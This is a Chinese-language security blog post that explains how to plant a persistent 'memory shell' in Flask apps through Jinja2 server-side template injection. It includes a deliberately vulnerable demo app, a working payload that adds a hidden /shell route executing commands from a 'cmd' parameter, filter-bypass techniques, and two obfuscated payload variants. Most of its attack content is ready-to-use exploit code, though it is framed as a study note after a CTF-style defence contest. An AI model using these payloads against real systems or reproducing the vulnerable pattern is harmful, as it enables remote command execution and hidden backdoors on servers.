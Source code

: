 # Python安全学习—Flask内存马

Author: H3rmesk1t

本文首发于[先知社区](https://xz.aliyun.com/t/10933)

## 前言
打安洵杯线下的时候有一道`Python`的`SSTI`模板注入的`AWD`题目, 由于之前没有怎么接触过关于`Python`的攻防点, 一度被别人种了`Python 内存马`都还没发现, 等比赛中断发现修补后的题目被打进来后, 查看流量记录才意识到攻击者前面是用的`Flask`内存马打的, 之前看过大概的思路却鸽了一直没学, 这里暂且记录一下相关知识点.

## 概念
常用的`Python`框架有`Django`、`Flask`, 这两者都可能存在`SSTI`漏洞. `Python 内存马`利用`Flask`框架中`SSTI`注入来实现, `Flask`框架中在`web`应用模板渲染的过程中用到`render_template_string`进行渲染, 但未对用户传输的代码进行过滤导致用户可以通过注入恶意代码来实现`Python`内存马的注入.

## Flask 请求上下文管理机制
当网页请求进入`Flask`时, 会实例化一个`Request Context`. 在`Python`中分出了两种上下文: 请求上下文(request context)、应用上下文(session context). 一个请求上下文中封装了请求的信息, 而上下文的结构是运用了一个`Stack`的栈结构, 也就是说它拥有一个栈所拥有的全部特性. `request context`实例化后会被`push`到栈`_request_ctx_stack`中, 基于此特性便可以通过获取栈顶元素的方法来获取当前的请求.

## 漏洞环境
先用`Flask`编写一个`SSTI-Demo`:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)


@app.route('/')
def hello_world():  # put application's code here
    person = 'knave'
    if request.args.get('name'):
        person = request.args.get('name')
    template = '<h1>Hi, %s.</h1>' % person
    return render_template_string(template)


if __name__ == '__main__':
    app.run()
```

原始`Flask`内存马`Payload`:

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

命令执行结果:

![](./images/1.png)

![](./images/1.png)

## Payload 分析
将前面的`Payload`拆开来, 逐层分析.

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
    )",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    }
)
```

对于`url_for.__globals__['__builtins__']['eval']`这一截`Payload`, `url_for`是`Flask`的一个内置函数, 通过`Flask`内置函数可以调用其`__globals__`属性, 该特殊属性能够返回函数所在模块命名空间的所有变量, 其中包含了很多已经引入的`modules`, 可以看到这里是支持`__builtins__`的.

![](./images/3.png)

![](./images/4.png)

在`__builtins__`模块中, `Python`在启动时就直接为我们导入了很多内建函数. 准确的说, `Python`在启动时会首先加载内建名称空间, 内建名称空间中有许多名字到对象之间的映射, 这些名字就是内建函数的名称, 对象就是这些内建函数对象. 可以看到, 在`__builtins__`模块的内建函数中是存在`eval`、`exec`等命令执行函数的.

![](./images/5.png)

```python
['ArithmeticError', 'AssertionError', 'AttributeError', 'BaseException', 'BlockingIOError', 'BrokenPipeError', 'BufferError', 'BytesWarning', 'ChildProcessError', 'ConnectionAbortedError', 'ConnectionError', 'ConnectionRefusedError', 'ConnectionResetError', 'DeprecationWarning', 'EOFError', 'Ellipsis', 'EnvironmentError', 'Exception', 'False', 'FileExistsError', 'FileNotFoundError', 'FloatingPointError', 'FutureWarning', 'GeneratorExit', 'IOError', 'ImportError', 'ImportWarning', 'IndentationError', 'IndexError', 'InterruptedError', 'IsADirectoryError', 'KeyError', 'KeyboardInterrupt', 'LookupError', 'MemoryError', 'ModuleNotFoundError', 'NameError', 'None', 'NotADirectoryError', 'NotImplemented', 'NotImplementedError', 'OSError', 'OverflowError', 'PendingDeprecationWarning', 'PermissionError', 'ProcessLookupError', 'RecursionError', 'ReferenceError', 'ResourceWarning', 'RuntimeError', 'RuntimeWarning', 'StopAsyncIteration', 'StopIteration', 'SyntaxError', 'SyntaxWarning', 'SystemError', 'SystemExit', 'TabError', 'TimeoutError', 'True', 'TypeError', 'UnboundLocalError', 'UnicodeDecodeError', 'UnicodeEncodeError', 'UnicodeError', 'UnicodeTranslateError', 'UnicodeWarning', 'UserWarning', 'ValueError', 'Warning', 'ZeroDivisionError', '_', '__build_class__', '__debug__', '__doc__', '__import__', '__loader__', '__name__', '__package__', '__spec__', 'abs', 'all', 'any', 'ascii', 'bin', 'bool', 'breakpoint', 'bytearray', 'bytes', 'callable', 'chr', 'classmethod', 'compile', 'complex', 'copyright', 'credits', 'delattr', 'dict', 'dir', 'divmod', 'enumerate', 'eval', 'exec', 'exit', 'filter', 'float', 'format', 'frozenset', 'getattr', 'globals', 'hasattr', 'hash', 'help', 'hex', 'id', 'input', 'int', 'isinstance', 'issubclass', 'iter', 'len', 'license', 'list', 'locals', 'map', 'max', 'memoryview', 'min', 'next', 'object', 'oct', 'open', 'ord', 'pow', 'print', 'property', 'quit', 'range', 'repr', 'reversed', 'round', 'set', 'setattr', 'slice', 'sorted', 'staticmethod', 'str', 'sum', 'super', 'tuple', 'type', 'vars', 'zip']
```

由于存在命令执行函数, 因此我们就可以直接调用命令执行函数来执行危险操作, `Exploit`如下:

```python
{{url_for.__globals__['__builtins__']['eval']("__import__('os').system('open -a Calculator')")}}
```

![](./images/6.png)

接着再来看看`app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())`这一截`Payload`. 这部分是动态添加了一条路由, 而处理该路由的函数是个由`lambda`关键字定义的匿名函数.

在`Flask`中注册路由的时候是添加的`@app.route()`装饰器来实现的, 跟进查看其源码实现, 发现其调用了`add_url_rule`函数来添加路由.

![](./images/7.png)

跟进`add_url_rule`函数, 其参数说明如下:
 - rule: 函数对应的`URL`规则, 满足条件和`app.route`的第一个参数一样, 必须以`/`开头.
 - endpoint: 端点, 即在使用`url_for`进行反转的时候, 这里传入的第一个参数就是`endpoint`对应的值, 这个值也可以不指定, 默认就会使用函数的名字作为`endpoint`的值.
 - view_func: `URL`对应的函数, 这里只需写函数名字而不用加括号.
 - provide_automatic_options: 控制是否应自动添加选项方法.
 - options: 要转发到基础规则对象的选项.

![](./images/8.png)

`lambda`即匿名函数, `Payload`中`add_url_rule`函数的第三个参数定义了一个`lambda`匿名函数, 其中通过`os`库的`popen`函数执行从`Web`请求中获取的`cmd`参数值并返回结果, 其中该参数值默认为`whoami`.

再来看看`'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']}`这一截`Payload`. `_request_ctx_stack`是`Flask`的一个全局变量, 是一个`LocalStack`实例, 这里的`_request_ctx_stack`即上文中提到的`Flask 请求上下文管理机制`中的`_request_ctx_stack`. `app`也是`Flask`的一个全局变量, 这里即获取当前的`app`.

到此, 大致逻辑基本就梳理清晰了, `eval`函数的功能即动态创建一条路由, 并在后面指明了所需变量的全局命名空间, 保证`app`和`_request_ctx_stack`都可以被找到.

## ByPass
在实际应用中往往都存在过滤, 因此了解如何绕过还是必要的.
 - `url_for`可替换为`get_flashed_messages`或者`request.__init__`或者`request.application`.
 - 代码执行函数替换, 如`exec`等替换`eval`.
 - 字符串可采用拼接方式, 如`['__builtins__']['eval']`变为`['__bui'+'ltins__']['ev'+'al']`.
 - `__globals__`可用`__getattribute__('__globa'+'ls__')`替换.
 - `[]`可用`.__getitem__()`或`.pop()`替换.
 - 过滤`{{`或者`}}`, 可以使用`{%`或者`%}`绕过, `{%%}`中间可以执行`if`语句, 利用这一点可以进行类似盲注的操作或者外带代码执行结果.
 - 过滤`_`可以用编码绕过, 如`__class__`替换成`\x5f\x5fclass\x5f\x5f`, 还可以用`dir(0)[0][0]`或者`request['args']`或者`request['values']`绕过.
 - 过滤了`.`可以采用`attr()`或`[]`绕过.
 - 其它的手法参考`SSTI`绕过过滤的方法即可...

这里给出两个变形`Payload`:
 - 原`Payload`

```python
url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})
```

 - 变形`Payload-1`

```python
request.application.__self__._get_data_for_json.__getattribute__('__globa'+'ls__').__getitem__('__bui'+'ltins__').__getitem__('ex'+'ec')("app.add_url_rule('/h3rmesk1t', 'h3rmesk1t', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('shell', 'calc')).read())",{'_request_ct'+'x_stack':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('_request_'+'ctx_stack'),'app':get_flashed_messages.__getattribute__('__globa'+'ls__').pop('curre'+'nt_app')})
```

 - 变形`Payload-2`

```python
get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("__builtins__")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0065\u0076\u0061\u006c")("app.add_ur"+"l_rule('/h3rmesk1t', 'h3rmesk1t', la"+"mbda :__imp"+"ort__('o"+"s').po"+"pen(_request_c"+"tx_stack.to"+"p.re"+"quest.args.get('shell')).re"+"ad())",{'\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u005f\u0072\u0065\u0071\u0075\u0065\u0073\u0074\u005f\u0063\u0074\u0078\u005f\u0073\u0074\u0061\u0063\u006b"),'app':get_flashed_messages|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetattribute\x5f\x5f")("\x5f\x5fgetitem\x5f\x5f")("\u0063\u0075\u0072\u0072\u0065\u006e\u0074\u005f\u0061\u0070\u0070")})
```

![](./images/10.png)

## 参考
 - [浅析Python Flask内存马](https://www.mi1k7ea.com/2021/04/07/%E6%B5%85%E6%9E%90Python-Flask%E5%86%85%E5%AD%98%E9%A9%AC/)